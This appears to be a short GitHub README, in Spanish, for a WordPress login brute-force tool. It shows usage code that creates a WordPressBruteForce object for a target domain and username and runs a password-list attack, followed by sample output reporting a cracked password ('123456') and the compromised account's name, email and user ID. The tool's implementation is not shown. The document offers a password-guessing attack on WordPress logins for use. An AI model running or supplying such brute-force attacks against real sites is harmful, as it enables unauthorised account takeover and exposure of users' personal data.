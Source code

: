 # WP-Login- Brute-Force


# Crea una instancia de la clase WordPressBruteForce
wp = WordPressBruteForce(wp_domain='example.com', wp_username='username')

# Realiza un ataque de fuerza bruta utilizando el archivo 'passwords.txt'
wp.brute_force_attack('password.txt')

RESULT

Contraseña para "usuario1" Incorrecta.<br>
Autenticación -> "usuario2" | Password: "123456"<br>
Nombre de usuario: usuario2<br><br><br><br><br>
Nombre: Usuario<br>
Apellido: 2<br>
Correo electrónico: admin@example.com<br><br>
ID de usuario: 1<br>
